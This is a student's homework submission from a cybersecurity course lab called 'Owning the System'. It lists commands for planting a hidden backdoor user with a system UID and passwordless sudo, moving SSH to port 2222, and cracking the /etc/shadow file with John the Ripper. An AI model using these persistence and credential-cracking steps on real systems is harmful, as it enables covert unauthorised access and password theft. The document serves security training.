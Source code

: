 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo adduser sysd` 

    <img src="/week6/IMAGE/addusr.png"> 

    ![description](IMAGE/addusr.png)

2. Give your secret user a password: 
    - `no command, answered promps as directed`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 869 sysd`

    <img src="/week6/IMAGE/sysdID.png"> 

    ![description](IMAGE/sysdID.png)


4. Give your secret user the same GID:
   - `sudo groupmod -g 869 sysd`

   <img src="/week6/IMAGE/sysdID.png"> 

    ![description](IMAGE/sysdID.png)

5. Give your secret user full `sudo` access without the need for a password:
   -  sudo visudo
   -  enter pass word
   -  /etc/sudoers.tmp folder
   -  # User privilege specification
   -  root    ALL=(ALL:ALL) ALL
   -  sysd    ALL=(ALL:ALL) NOPASSWD:ALL

    <img src="/week6/IMAGE/su_acc_nopass.png"> 

    ![description](IMAGE/su_acc_nopass.png)


6. Test that `sudo` access works without your password:

    - sudo -l 
    - (ALL : ALL) NOPASSWD: ALL
**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    -sudo nano /etc/ssh/sshd_config
    - Port 2222

    <img src="/week6/IMAGE/step_2.png"> 

    ![description](IMAGE/step_2.png)

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysadmin@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

    <img src="/week6/IMAGE/step3_1.png"> 

    ![description](IMAGE/step3_1.png)

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `sudo john /etc/shadow`

    <img src="/week6/IMAGE/passwd8.png"> 

    ![description](IMAGE/passwd8.png)


---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

